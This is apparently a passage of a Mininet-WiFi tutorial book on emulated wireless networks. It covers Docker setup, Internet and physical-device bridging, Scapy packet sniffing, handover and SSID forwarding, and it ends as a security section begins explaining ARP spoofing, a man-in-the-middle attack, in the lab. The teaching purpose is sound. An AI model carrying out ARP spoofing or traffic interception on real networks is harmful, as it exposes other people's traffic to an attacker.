Containers are lightweight execution environments similar to virtual machines that allow you to segregate processes so that they can be run independently. We can say that containers are instances of an image running at a given moment, by which different services can be segregated between different instances.


Among container-related technologies, _Docker_ is certainly the most well-known and used container management program. _Docker_ is an open source project written in _Go_ that enables the packaging of an entire application or environment within a container, making the stored content portable to any other computer that has _Docker_ installed.


A docker container image is a standalone, executable software package that includes everything needed to run a program: code, runtime, system tools, system libraries, and configurations.


Container images become containers during runtime, and in the case of _Docker_ containers, the images become containers when they are executed using the _Docker Engine_. Given their compatibility with Linux and Windows-based operating systems, containerized software will always run the same way regardless of the system infrastructure. This impressive feature is possible due the containers' ability to isolate the software from its environment and ensure that it works in a uniform way, despite any differences, for instance, between its development and preparation.


Once we get to know a little more about containers and, most importantly, _Docker_, we will see in practice how their process works. We will consider, in the remainder of this section, _Docker_ to be already installed.


Then, once you install _Docker_ and get it up and running, execute the following command.

```
    sudo docker run --privileged=true -it --env="DISPLAY" --env="QT_X11_NO_MITSHM=1" -v /tmp/.X11-unix:/tmp/.X11-unix:rw -v /sys/:/sys -v /lib/modules/:/lib/modules/ --name mininet-wifi --hostname mininet-wifi ramonfontes/mininet-wifi:latest /bin/bash
```

In general terms, the above command causes the container processes to become interactive, then it forwards the DISPLAY environment variable, mounts a volume in the unix X11 socket and registers the container ID. It also creates a container called Mininet-WiFi, so you will not be able to issue the same command twice or more, since the system does not allow the creation of two or more containers with the same name. On the other hand, you can remove containers using the `sudo docker rm` command or even create new containers with different names by adding the (`--name`) line.


Now, you can issue the command written below from inside the container. It will start Mininet-WiFi within the container (you will need to replace _username_ with the username of your operating system).

```
    root@mininet-wifi:/# sudo mn --wifi --docker --container mininet-wifi --ssh-user username
```

 Explaining the command: `--docker` enables Mininet-WiFi for use on Docker; `--container` indicates the name of the container; and `--ssh-user` indicates the username of the host. An SSH connection is required because some commands need to be run on the host in order to make Mininet-WiFi work properly.

Right now, you already have Mininet-WiFi running on one container, and you are able to create multiple containers. Additionally, multiple instances of Mininet-WiFi can also be started, one for each container. Different instances of Mininet-WiFi can be useful in situations where the integration of different types of environments, such as those characterized by different propagation models, is necessary.

### Interaction between virtual and real environments
Now, we will learn about two ways by which virtual environments can interact with the real world: the first one involves the communication and interaction of nodes emulated by Mininet-Wifi with the Internet. The second one uses an additional wireless network card that can be connected to your computer.

#### Internet
Requirements: script(s) only

Establishing communication between the virtual nodes and the Internet is possible and consists of a fairly simple task. In this tutorial, we will provide important information about the IP addressing step of this process and also about the default gateway's role in it.


First, let us understand what the default gateway is and how important it is to the network. To do so, run the following script.

```
    ~/mininet-wifi$ sudo python mn-wifi-book-en/codes/cap4/defaultgw.py
```

If we look at the topology configured in the script, we will see that it comprises an access point called **r1** that is running from a station. What does that mean? It means that there is a station whose (two) wireless interfaces are operating in master mode, which is the mode of operation for interfaces acting as access points. 


This topology also includes two other stations, whose interfaces are operating in managed mode, i.e. the mode of operation for clients. The **sta1** station is associated with one of **r1**'s interfaces, while **sta2** is associated with another one.


After this brief explanation, try to _ping_ between **sta1** and **sta2**.

```
    mininet-wifi> sta1 ping -c1 sta2
    connect: Network is unreachable
```

 Why is **sta1** not able to communicate with **sta2**? Try to answer that question before resuming your reading of this section.

As you can see, **sta1** cannot communicate with **sta2** and vice versa. Consequently, the message _Network is unreachable_ is displayed. But what does it mean? To answer this question, let us first check whether both nodes, **sta1** and **sta2**, are associated with the wireless router **r1**. If they are, this eliminates the possibility of the communication failure being related to the data link layer - in other words, to the absence of connectivity between **sta1** and **sta2**.

```
    mininet-wifi> sta1 iw dev sta1-wlan0 link
    Connected to 02:00:00:00:02:00 (on sta1-wlan0)
    	SSID: r1-ssid1
    	freq: 2412
    	RX: 2910 bytes (60 packets)
    	TX: 718 bytes (8 packets)
    	signal: -36 dBm
    	tx bitrate: 11.0 MBit/s

	    bss flags:	short-slot-time
	    dtim period:	2
	    beacon int:	100
    
    mininet-wifi> sta2 iw dev sta2-wlan0 link
    Connected to 02:00:00:00:03:00 (on sta2-wlan0)
    	SSID: r1-ssid2
    	freq: 2412
    	RX: 6078 bytes (130 packets)
    	TX: 806 bytes (9 packets)
    	signal: -36 dBm
    	tx bitrate: 9.0 MBit/s

	    bss flags:	short-slot-time
	    dtim period:	2
	    beacon int:	100
```

This association indicates that the communication failure is not related to problems in the interaction of **sta1** and **sta2** with **r1**, since they appear to remain associated with **r1**. Thus, we will keep trying to identify the reason for the lack of communication between **sta1** and **sta2**.


Now let us look at the IP addresses belonging to **sta1** and **sta2**.

```
    mininet-wifi> sta1 ip addr show dev sta1-wlan0 
    187: sta1-wlan0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
        link/ether 02:00:00:00:00:00 brd ff:ff:ff:ff:ff:ff
        inet 192.168.0.1/24 scope global sta1-wlan0
           valid_lft forever preferred_lft forever
        inet6 fe80::ff:fe00:0/64 scope link 
           valid_lft forever preferred_lft forever
           
    mininet-wifi> sta2 ip addr show dev sta2-wlan0 
    188: sta2-wlan0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
        link/ether 02:00:00:00:01:00 brd ff:ff:ff:ff:ff:ff
        inet 192.168.1.1/24 scope global sta2-wlan0
           valid_lft forever preferred_lft forever
        inet6 fe80::ff:fe00:100/64 scope link 
           valid_lft forever preferred_lft forever
```

Based on the above information, you can notice that **sta1** is not on the same subnet as **sta2**. While **sta1** is on subnet 192.168.0.0/24, **sta2** is on subnet 192.168.1.0/24. However, since these two IP networks are directly connected to **r1**, the latter should know how to forward packets to them. So the different subnet addresses should not be a problem.


We still need to identify the cause of the problem. Let us check, then, **sta1** and **sta2**'s gateway. The `route -n` command can be used to check their gateway.

```
    mininet-wifi> sta1 route -n
    Kernel IP routing table
    Destination Gateway  Genmask         Flags Metric Ref    Use Iface
    192.168.0.0 0.0.0.0  255.255.255.0   U     0      0        0 sta1-wlan0
    
    mininet-wifi> sta2 route -n
    Kernel IP routing table
    Destination Gateway  Genmask         Flags Metric Ref    Use Iface
    192.168.1.0 0.0.0.0  255.255.255.0   U     0      0        0 sta2-wlan0
```
    
By checking the Gateway column in the results displayed above, you can see that no default gateway address is set for **sta1** and **sta2**. Due to the absence of a default gateway, communication could not be established. You will then need to set the gateway address for the nodes. The commands demonstrated below define the gateway and allow you to verify whether they have been configured correctly.

```
    mininet-wifi> sta1 route add default gw 192.168.0.100
    mininet-wifi> sta2 route add default gw 192.168.1.100
    
    mininet-wifi> sta1 route -n
    Kernel IP routing table
    Destination  Gateway        Genmask        Flags Metric Ref  Use Iface
    0.0.0.0      192.168.0.100  0.0.0.0        UG    0      0      0 sta1-wlan0
    192.168.0.0  0.0.0.0        255.255.255.0  U     0      0      0 sta1-wlan0
    
    mininet-wifi> sta2 route -n
    Kernel IP routing table
    Destination  Gateway        Genmask        Flags Metric Ref  Use Iface
    0.0.0.0      192.168.1.100  0.0.0.0        UG    0      0      0 sta2-wlan0
    192.168.1.0  0.0.0.0        255.255.255.0  U     0      0      0 sta2-wlan0
```

Once the gateway address configuration is confirmed for both **sta1** and **sta2**, let us try a new _ping_ between them.

```
    mininet-wifi> sta1 ping -c1 sta2
    PING 192.168.1.1 (192.168.1.1) 56(84) bytes of data.
    64 bytes from 192.168.1.1: icmp_seq=1 ttl=63 time=0.113 ms

    --- 192.168.1.1 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 0.113/0.113/0.113/0.000 ms
```

As you can see, **sta1** and **sta2** were able to communicate with each other. 


This default gateway parameter is also used in any other network, including home networks, that has computers connected to the Internet. Without a default gateway, it would be relatively tricky to access the Internet.


Now let us run <_internet.py_>.

```
    ~/mininet-wifi$ sudo python mn-wifi-book-en/codes/cap4/internet.py
```

The above script includes a host named **nat0**, which will be the default gateway, as well as an access point and a station, as shown in the figure below.

[Internet topology](figures/internet.png  "Internet topology")


So let us try to _ping_ 8.8.8.8, a public address.

 The above IP address, 8.8.8.8, is a public DNS server address owned by Google and is often used worldwide to test Internet connectivity.

```
    mininet-wifi> sta1 ping -c1 8.8.8.8
    PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
    64 bytes from 8.8.8.8: icmp_seq=1 ttl=119 time=60.2 ms

    --- 8.8.8.8 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 60.284/60.284/60.284/0.000 ms
```

If all goes well, an output similar to the one shown above should be obtained, which results in a successful _ping_ to 8.8.8.8. You can also use the `traceroute` command to trace the route of a given packet over the Internet, as follows.

```
    mininet-wifi> sta1 traceroute google.com
    traceroute to google.com (216.58.202.78), 30 hops max, 60 byte packets
     1  _gateway (10.0.0.2)  78.868 ms  77.030 ms  80.743 ms
     2  192.168.10.1 (192.168.10.1)  75.142 ms  84.139 ms  82.334 ms
     3  192.168.1.1 (192.168.1.1)  85.997 ms  87.625 ms  127.088 ms
     4  * * *
     5  100.122.80.79 (100.122.80.79)  136.739 ms 100.122.80.81 (100.122.80.81)  142.876 ms 100.122.84.19 (100.122.84.19)  156.696 ms
     6  100.122.19.63 (100.122.19.63)  150.400 ms 100.122.25.82 (100.122.25.82)  93.179 ms 100.122.25.80 (100.122.25.80)  86.603 ms
     7  100.122.25.171 (100.122.25.171)  90.418 ms  112.886 ms 100.122.25.167 (100.122.25.167)  70.319 ms
     8  100.122.19.211 (100.122.19.211)  138.715 ms 100.122.20.81 (100.122.20.81)  150.725 ms 100.122.20.91 (100.122.20.91)  153.799 ms
     9  72.14.220.142 (72.14.220.142)  147.798 ms 72.14.242.150 (72.14.242.150)  157.341 ms  159.520 ms
    10  108.170.245.225 (108.170.245.225)  115.825 ms 108.170.245.193 (108.170.245.193)  121.135 ms 108.170.245.225 (108.170.245.225)  124.587 ms
    11  108.170.226.151 (108.170.226.151)  127.895 ms 108.170.226.227 (108.170.226.227)  131.215 ms 108.170.226.151 (108.170.226.151)  134.784 ms
    12  google.com (216.58.202.78)  169.080 ms  106.478 ms  104.748 ms
```

 Why can **sta1** communicate with the Internet? Because there was a default gateway address set for **sta1**. Without it, communication with the Internet would not be possible.

Note that there is indeed a default gateway address set for **sta1**.

```
    mininet-wifi> sta1 route -n
    Kernel IP routing table
    Destination  Gateway   Genmask    lags Metric  Ref  Use Iface
    0.0.0.0      10.0.0.2  0.0.0.0     UG    0      0    0  sta1-wlan0
    10.0.0.0     0.0.0.0   255.0.0.0   U     0      0    0  sta1-wlan0
```

Whenever **sta1** wants to communicate with any IP address (represented by IP 0.0.0.0) outside 10.0.0.0/8, it will forward packets to 10.0.0.2, so that 10.0.0.2 will forward packets to the intended address.


Conversely, if you remove the default gateway, you will be able to see how **sta1** can no longer communicate with the Internet, as follows:

```
    mininet-wifi> sta1 route del -net 0.0.0.0 gw 10.0.0.2
    mininet-wifi> sta1 route -n
    Kernel IP routing table
    Destination Gateway  Genmask     Flags Metric Ref  Use Iface
    10.0.0.0    0.0.0.0  255.0.0.0   U     0      0    0   sta1-wlan0
   
    mininet-wifi> sta1 ping 8.8.8.8
    connect: Network is unreachable
```


#### Physical nodes
Requirements: WiFi network card

In addition to being able to establish communication between virtual nodes and the Internet, Mininet-WiFi also allows these virtual nodes to interact with any other physical node such as a laptop or smartphone, which are located near the computer that is running Mininet-WiFi.


In this new tutorial, we will create an access point using a USB WiFi network card, which should be connected to the computer running Mininet-WiFi. Therefore, in order to complete this tutorial, you will need to connect a USB WiFi network card to your computer, as illustrated in the figure below.


After that, you need to edit <_hybridVirtualPhysical.py_> by modifying the value of the _usbDongleIface_ variable. You can do so via the interface created by your operating system for the USB WiFi network card. The `ip link show` command can be used to find out the name assigned to the network card.


You will now need to identify the MAC address of the new interface. Since the interface name is _wlxf4f26d193319_, the following command allows you to visualize its address.

```
    ip link show wlxf4f26d193319
    437: wlxf4f26d193319: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc tbf state DOWN mode DEFAULT group default qlen 1000
    link/ether f4:f2:6d:19:33:19 brd ff:ff:ff:ff:ff:ff
```

Then we add the MAC address to the _Network Manager_ configuration file, located at <_/etc/NetworkManager/NetworkManager.conf_>. Thus, the MAC address of the new WiFi card should appear on the list of devices not managed by <_NetworkManager.conf_>, as follows.

```
    [keyfile]
    unmanaged-devices=mac:f4:f2:6d:19:33:19;
```

 _Network Manager_ is a utility program that aims to simplify the use of computer networks on Linux operating systems. When active, it will try to control the interfaces running on your computer. Once _Network Manager_ gains control of the computer's network interfaces, the USB WiFi network card will not be able to operate in access point mode. Thus, we need to include it as a device that should be ignored by _Network Manager_.

Next, we need to restart the _Network Manager_ process to apply the changes.

```
	sudo service network-manager restart
```

Once the environment setup is complete, you need to run this tutorial's script.
 
```
    ~/mininet-wifi$ sudo python mn-wifi-book-en/codes/cap4/hybridVirtualPhysical.py
```



This script loads a virtual access point named **ap1** and a physical access point that will make your physical network card operate in master mode. Mininet-WiFi will then bridge these two virtual and physical network interface cards (NICs), enabling virtual devices to communicate with physical ones and vice versa. The figure above illustrates the topology of this experiment.


Now connect another laptop or even your smartphone to the network you just created. Since the script does not include a DHCP server configuration, you need to assign your static IP address the following address: 192.168.0.0/24. It is the same subnet used by the **sta1** station that was previously defined in the script. Taking into account that **sta1** already has the IP 192.168.0.1, we will need to configure a different IP address. Let us consider 192.168.0.2/24 as an example.


Then use the Mininet-WiFi CLI to establish communication with your physical device.

```
    mininet-wifi> sta1 ping -c5 192.168.0.2
    PING 192.168.0.2 (192.168.0.2) 56(84) bytes of data.
    64 bytes from 192.168.0.2: icmp_seq=1 ttl=64 time=2325 ms
    64 bytes from 192.168.0.2: icmp_seq=2 ttl=64 time=1316 ms
    64 bytes from 192.168.0.2: icmp_seq=3 ttl=64 time=294 ms
    64 bytes from 192.168.0.2: icmp_seq=4 ttl=64 time=5.00 ms
    64 bytes from 192.168.0.2: icmp_seq=5 ttl=64 time=115 ms
```

 If there is another network interface already using the 192.168.0.0/24 subnet, you will need to set up a different one.

Before we proceed to the next section, it is worth pointing out that the interaction between virtual and physical devices is not limited to making the USB WiFi card operate as an access point. Other modes of operation/commands such as _ad hoc_, _mesh_ and _wifi-direct_ can also be used.


- Ramon Fontes and Christian Esteve Rothenberg._Mininet-WiFi: A Platform for Hybrid Physical-Virtual Software-Defined Wireless Networking Research_. In ACM SIGCOMM 2016 Poster \& Demo Session, Aug 2016. 


 

[Rich Experimentation through Hybrid Physical-Virtual: Software-Defined Wireless Networking Emulation:](https://youtu.be/AbXLkUBLuDI)


### Decoding packets

Requirements: _Scapy_

Decoding packets is a process that allows us to parse the information contained in packets. We often only know this information conceptually, e.g. as the format of the IP header itself or even TCP, UDP, among many other parameters. Packet decoding will also be explored later using Ryu, which will involve allowing the controller to parse the usernames contained in UDP packets.


In this tutorial, we will first explore packet decoding with an excellent packet manipulation tool, [Scapy](https://scapy.net/). _Scapy_ is a program written in Python that can forge or even decode packets from a wide variety of protocols, send them to the network, capture them, match requests and responses, among other actions. 


_Scapy_ can easily handle more classic tasks such as scanning, tracerouting, probing, unit testing, network attack or discovery, and can replace tools such as `hping`, _nmap_, _arpspoof_ and _tcpdump_. It also works very well on other specific tasks that most other tools cannot handle, such as sending invalid frames, injecting customized IEEE 802.11 frames, and so on.


With this brief description of _Scapy_ done, let us proceed to the next tutorial, whose purpose will be to decode ICMP packets that target a certain IP address and create an action when the ICMP protocol and the specified IP are identified. As you may have guessed, we will use _Scapy_, which will require installing it. On its official website you can find instructions on how to do so.


Then, once _Scapy_ is installed, you will need to create a file called _sta1.scapy_ and add the code shown below to it.

```
    from scapy.all import *

    def pkt_callback(pkt):
        if IP in pkt:
            if pkt[IP].dst == '10.0.0.1':
                print("packet detected!")

    if __name__ == '__main__':
        iface = sys.argv[1]
        sniff(iface=iface, prn=pkt_callback, filter="icmp", store=0)
```

This code will process ICMP packets that have 10.0.0.1 as their destination IP address. Should a match be found, the following message will be printed on the terminal: _packet detect!_.


Since we will need to run a topology to generate the necessary traffic, we will use the simplest Mininet-WiFi topology and start a terminal for **sta1**.

```
    ~/mininet-wifi$ sudo mn --wifi
    mininet-wifi> xterm sta1
```

Using the **sta1** terminal, you will run _sta1.scapy_ by adding **sta1**'s wireless interface as an argument, as follows.

```
    sta1# python sta1.scapy sta1-wlan0
```

Then, using the Mininet-WiFi CLI, try a _ping_ between **sta1** and **sta2**. 

```
    mininet-wifi> sta2 ping -c5 10.0.0.1
    PING 10.0.0.1 (10.0.0.1) 56(84) bytes of data.
    64 bytes from 10.0.0.1: icmp_seq=1 ttl=64 time=0.132 ms
    64 bytes from 10.0.0.1: icmp_seq=2 ttl=64 time=0.236 ms
    64 bytes from 10.0.0.1: icmp_seq=3 ttl=64 time=0.155 ms
    64 bytes from 10.0.0.1: icmp_seq=4 ttl=64 time=0.081 ms
    64 bytes from 10.0.0.1: icmp_seq=5 ttl=64 time=0.126 ms

    --- 10.0.0.1 ping statistics ---
    5 packets transmitted, 5 received, 0% packet loss, time 4083ms
    rtt min/avg/max/mdev = 0.081/0.146/0.236/0.051 ms
```

As a result, you should notice that the following output has been printed on the **sta1** terminal.

```
    packet detected!
    packet detected!
    packet detected!
    packet detected!
    packet detected!
```

Since five ICMP packets were sent by **sta2**, five messages are displayed on the **sta1** terminal. Try modifying the _sta1.scapy_ script file to change the displayed message or even the type of protocol to be processed.

#### Control over handover
Requirements: _Scapy_, _Ryu_

In the field of wireless networks, one of the concepts that are most commonly asked about is handover, which is a process that is initiated when a mobile moves from its current cell to its neighboring cell, whether it be WiFi, LTE or any other type of wireless technology. There are two types of handover: horizontal handover, which involves cells of the same network technology, and vertical, which happens among different wireless network technologies.


In this tutorial, we will simulate a message received by a station as if it were sent by an SDN controller, instructing the station to associate with a certain access point. To do this, we will start _Ryu_ on one terminal, and on the other one we will run <_handover-controller.py_>, which includes instructions on how to execute two scripts related to _Scapy_ (<_sta1\_.py_> and <_sta2\_py_>) that will filter ICMP packets and, more importantly, echo request messages. Due to their importance, we recommend that you read and familiarize yourself with the contents of <_sta1\_.py_> and <_sta2\_py_>.

```
    ~/mininet-wifi/ryu$ sudo PYTHONPATH=. ./bin/ryu-manager ryu/app/simple_switch_13.py
```

```
    ~/mininet-wifi$ sudo python mn-wifi-book-en/codes/cap4/handover-controller.py
```

After starting the script, we will need to check the association between **sta1** and **sta2**.

```
    mininet-wifi> sta1 iw dev sta1-wlan0 link
    Connected to 00:00:00:00:00:01 (on sta1-wlan0)
	    SSID: handover
    	freq: 2412
	    RX: 25357 bytes (418 packets)
    	TX: 1222 bytes (12 packets)
	    signal: -52 dBm
    	tx bitrate: 12.0 MBit/s

    	bss flags:	short-slot-time
    	dtim period:	2
    	beacon int:	100
    	
    mininet-wifi> sta2 iw dev sta2-wlan0 link
    Connected to 00:00:00:00:00:01 (on sta2-wlan0)
    	SSID: handover
    	freq: 2412
    	RX: 84262 bytes (1483 packets)
    	TX: 1554 bytes (16 packets)
    	signal: -66 dBm
    	tx bitrate: 24.0 MBit/s

	    bss flags:	short-slot-time
	    dtim period:	2
	    beacon int:	100
```

Since the BSSID of **ap1** is 00:00:00:00:01, we can confirm that both **sta1** and **sta2** are associated with it.


Now let us do something different: an attempt to _ping_ **h1** and **sta1**.

```
    mininet-wifi> h1 ping -c1 sta1
```

Next, let us double check **sta1**'s association status.

```
    mininet-wifi> sta1 iw dev sta1-wlan0 link
    Connected to 00:00:00:00:00:02 (on sta1-wlan0)
    	SSID: handover
    	freq: 2437
    	RX: 9777 bytes (95 packets)
    	TX: 644 bytes (6 packets)
    	signal: -74 dBm
    	tx bitrate: 1.0 MBit/s

    	bss flags:	short-slot-time
    	dtim period:	2
    	beacon int:	100
```

As you can see, **sta1** has migrated to the **ap2** access point, whose BSSID is 00:00:00:00:00:02.


Now do the same with **sta2**.

```
    mininet-wifi> h1 ping -c1 sta2
```

And also check **sta2**'s association status.

```
    mininet-wifi> sta2 iw dev sta2-wlan0 link
    Connected to 00:00:00:00:00:03 (on sta2-wlan0)
    	SSID: handover
    	freq: 2412
    	RX: 3952 bytes (68 packets)
    	TX: 644 bytes (6 packets)
    	signal: -88 dBm
    	tx bitrate: 1.0 MBit/s

    	bss flags:	short-slot-time
    	dtim period:	2
    	beacon int:	100
```

Likewise, **sta2** has migrated to access point **ap3**, whose BSSID is 00:00:00:00:00:03.


Of course, the example used in this tutorial took into account the ICMP packet and in particular the _echo request_ message. However, any other protocol could be filtered by _Scapy_ in order to generate an action similar to the one generated by the _echo request_ message.


#### Beacons

Requirements: _Scapy_, _Ryu_

_Scapy_ also allows beacon processing, which increases the range of available options for more accurate control over handover, mainly because beacons contain the signal strength that can be perceived by a node.


For example, consider the code shown below.

```
    from scapy.all import *
    import os

    def pkt_callback(pkt):
        broadcast = "ff:ff:ff:ff:ff:ff"
        addr1 = "02:00:00:00:00:00"
        if pkt.haslayer(Dot11):
            extra = pkt.notdecoded
            signal = -(256 - ord(extra[-4:-3]))
            if pkt.addr1 == addr1:
                msg = "vehicle: %s / transmitter: %s / signal: %s" % (pkt.addr1, pkt.addr2, signal)
                packet = IP(src="10.0.0.2", dst="10.0.0.100")/TCP(sport=8000, dport=6653)/msg
                send(packet, verbose=0)

    sniff(iface="mon0", prn=pkt_callback)
```

We can notice that the code includes an instruction to use the **mon0** monitor interface. As we have seen in previous tutorials, monitor interfaces are capable of capturing _beacons_ from the wireless medium. During the beacon capture process, (_pkt\_callback_) is initiated if a beacon's target is the node through which the code is issuing a message. This message must be sent to the controller to inform it as to which node sent it, in addition to the signal strength perceived by that same node. Did you understand? Let us practice to learn more about this process.


First, you will run _Ryu_ on a terminal, and on another one you will execute the <_handover-controller-beacons.py_> script.

```
    ~/mininet-wifi/ryu$ sudo PYTHONPATH=. ./bin/ryu-manager ryu/app/simple_switch_13.py
```

```
    ~/mininet-wifi$ sudo python mn-wifi-book-en/codes/cap4/handover-controller-beacons.py
```

Then, run _Wireshark_ on a third terminal and start the capture process using the **con-eth0** interface. On it, you can see numerous packets sent by **sta1** and **sta2**, which contain the messages displayed in the _Scapy_ script. Figure below illustrates these messages. You can notice that a message was sent to IP address 10.0.0.100, i.e. the IP address on which _Ryu_ is running. At the bottom of the figure, you can see the its content, which includes MAC addresses and the received signal, exactly as was defined for the _msg_ variable previously. We reproduce this content below.

```
    msg = "node: %s / transmitter: %s / signal: %s" % (pkt.addr1, pkt.addr2, signal)
```


With this information the controller (or any application running on it, in fact), we will be able to take decisions and respond to the node, instructing it to transit to a new access point because of an observed low signal strength or even due to an access point overhead.


A good option for instructing stations to transit between access points based on instructions received by controllers is wpa\_cli, which has already been used in the previous tutorial. To run wpa\_cli, something similar to the code snippet below can be used.

```
    os.system("~/mininet-wifi/util/m sta1 wpa_cli -i sta1-wlan0 roam 00:00:00:00:00:02")
```

Written in _Python_, this code contains a new information, which is the <_util/m_> directory. This directory can be recalled from any terminal and also outside the Mininet-WiFi CLI. Its function is to execute commands from any node running on the Mininet-WiFi topology.


The previous command, then, executes wpa\_cli from **sta1** on the **sta1-wlan0** interface and causes this node to associate with another access point that has ``00:00:00:00:00:02'' as its BSSID. This type of association method (with the _roam_ command) is faster than using the disconnect and connect commands.


 Another good alternative that allows you to create (and ``forge'') packets is [libtins](http://libtins.github.io/). It is a software certainly worth learning about: give it a try.

### Association control
Two methods of association control are natively supported by Mininet-WiFi: LLF (_Least-Loaded-First_) and SSF (_Strongest-Signal-First_). The first method performs a type of load balancing of the number of stations that should be associated with multiple access points. The second method instructs stations to always search for an access point that provides a better signal strength.


To demonstrate these association control methods, let us run the following script.

```
    ~/mininet-wifi$ sudo python mn-wifi-book-en/codes/cap4/associationControl.py
```

Using the SSF method, all stations will be associated with the **ap1** access point. The output below shows that one of the stations, **sta5**, is indeed associated with **ap1**. _The same can be done with the other stations_.

```
    mininet-wifi> sta5 iw dev sta5-wlan0 link
    Connected to 02:00:00:00:05:00 (on sta5-wlan0)
	    SSID: ssid-ap1
    	freq: 2412
	    RX: 1408 bytes (20 packets)
        TX: 306 bytes (4 packets)
        signal: -36 dBm
        tx bitrate: 1.0 MBit/s

        bss flags:	short-slot-time
        dtim period:	2
        beacon int:	100
```

Now, we need to edit the script and change the association control method from SSF to LLF. Next, let us double-check which access point the **sta5** station is associated to.

```
    mininet-wifi> sta5 iw dev sta5-wlan0 link
    Connected to 02:00:00:00:06:00 (on sta5-wlan0)
    	SSID: ssid-ap2
	    freq: 2437
    	RX: 12514 bytes (191 packets)
	    TX: 806 bytes (9 packets)
    	signal: -36 dBm
	    tx bitrate: 1.0 MBit/s

    	bss flags:	short-slot-time
	    dtim period:	2
    	beacon int:	100
```

As expected, **sta5** is now associated with access point **ap2** - and the same occurred with **sta4**. But what can explain this change? After executing the script, only **sta4** and **sta5** were within the signal range of the two access points included in the topology. As the first three stations were already associated with access point **ap1**, the requisites for using the new method were fulfilled, and consequently the method performed a type of load balancing, causing the new associations to be transferred to access point **ap2**. 


Therefore, access point **ap1** now has three associations, whereas the access point **ap2** has two stations associated with it.


### Forwarding by SSID
Requirements: script(s) only

It is common for some companies or even homes to have access points that propagate multiple SSIDs. An access point may have multiple SSIDs for a number of reasons, including: to provide different security mechanisms for different access levels and/or users; to segregate bandwidth for different types of services; or even to reduce costs in relation to the number of access points.


In this tutorial, we will continue to use the OpenFlow protocol. This time, however, we will use it to define different rules for different SSIDs, which will cause OpenFlow to act on the different ports created by the access point for the various SSIDs.


Before we start this tutorial's script, we will need to stop _Network Manager_. To do so, we can use the following command.

```
    ~/mininet-wifi$ sudo service network-manager stop
```

 Connection to the Internet will certainly be interrupted when _network-manager_ is stopped. After completing this tutorial, you can be re-establish connection by starting _network-manager_ again.

Since _Network Manager_ is no longer running, execute the following script.

```
    ~/mininet-wifi$ sudo python mn-wifi-book-en/codes/cap4/forwardingBySSID.py
```




This script will create five different SSIDs for access point **ap1**, as illustrated in the figure above. At first, the script's rules say that **sta1**, **sta2** and **sta3** can communicate with each other. This can be confirmed after we perform the connectivity test among them.

```
    mininet-wifi> sta1 ping -c1 sta2
    PING 10.0.0.2 (10.0.0.2) 56(84) bytes of data.
    64 bytes from 10.0.0.2: icmp_seq=1 ttl=64 time=1009 ms

    --- 10.0.0.2 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 1009.541/1009.541/1009.541/0.000 ms
    mininet-wifi> sta1 ping -c1 sta3
    PING 10.0.0.3 (10.0.0.3) 56(84) bytes of data.
    64 bytes from 10.0.0.3: icmp_seq=1 ttl=64 time=0.516 ms

    --- 10.0.0.3 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 0.516/0.516/0.516/0.000 ms
    mininet-wifi> sta2 ping -c1 sta3
    PING 10.0.0.3 (10.0.0.3) 56(84) bytes of data.
    64 bytes from 10.0.0.3: icmp_seq=1 ttl=64 time=0.336 ms

    --- 10.0.0.3 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 0.336/0.336/0.336/0.000 ms
```

As you can see, the rules defined in the script seem to work fine. 


Yet the rules also say the following: **sta4** and **sta5** can communicate with each other, but since there are no rules that involve the combination of **sta1**, **sta2** and **sta3** with **sta4** and **sta5**, these two groups of nodes will be separated, thus precluding communication between them.


For instance, note **sta1**'s attempt to communicate with **sta4** and **sta5**.

```
    mininet-wifi> sta1 ping -c1 sta4
    PING 10.0.0.4 (10.0.0.4) 56(84) bytes of data.
    From 10.0.0.1 icmp_seq=1 Destination Host Unreachable

    --- 10.0.0.4 ping statistics ---
    1 packets transmitted, 0 received, +1 errors, 100% packet loss, time 0ms
   
    mininet-wifi> sta1 ping -c1 sta5
    PING 10.0.0.5 (10.0.0.5) 56(84) bytes of data.
    From 10.0.0.1 icmp_seq=1 Destination Host Unreachable

    --- 10.0.0.5 ping statistics ---
    1 packets transmitted, 0 received, +1 errors, 100% packet loss, time 0ms
```

As expected, we receive _Destination Host Unreachable_ as an answer and 100\% of the packets were lost.


### Security

In this section, we will complete security-related tutorials such as WPA/WPA2 key discovery, the _KRACK attack_ case, intrusion detection system use, and centralized authentication using a RADIUS server.


 Some of the operations described in this section are illegal and are liable to prosecution. The purpose of this section is to present the actions  just for didactic purpose.


#### ARP Spoofing
Requirements: _dsniff_
The ARP (Address Resolution Protocol) is used to find the Ethernet address (MAC) that corresponds to a local IP address to which your computer wants to send a packet. Any host that is searching for a MAC sends out an ARP packet containing the IP address of the target host and waits for a response with the MAC address, which will be mapped to the host's IP address.


ARP Spoofing, in turn, is a type of attack that occurs when a _malicious element_ receives this request and responds with its MAC address. It is a type of man-in-the-middle attack, during which the attacker can copy all traffic information to his machine before forwarding the data to the correct destination.


Part of this process is illustrated in the figure below. You can infer that before reaching the final destination (the Internet), **sta2** is able to copy all traffic data, analyze them, and then forward them to the Internet without **sta1** having any knowledge about it.




In this tutorial, we will simulate the steps shown in the figure in order to demonstrate in practice how the ARP _Spoofing_ attack occurs. To do so, let us run <_arpspoofing.py_>.

```
    ~/mininet-wifi$ sudo python mn-wifi-book-en/codes/cap4/arpspoofing.py
```

Then we will attempt to _ping_ 8.8.8.8 from **sta1**.

```
    mininet-wifi> sta1 ping -c1 8.8.8.8
    PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
    64 bytes from 8.8.8.8: icmp_seq=1 ttl=118 time=68.8 ms

    --- 8.8.8.8 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 68.893/68.893/68.893/0.000 ms
```

As you can see, _ping_ was successful. Now, let us check the **sta1**'s ARP table. The table should include **sta1**'s IP address as well as the MAC address of the default gateway.

```
    mininet-wifi> sta1 arp -a
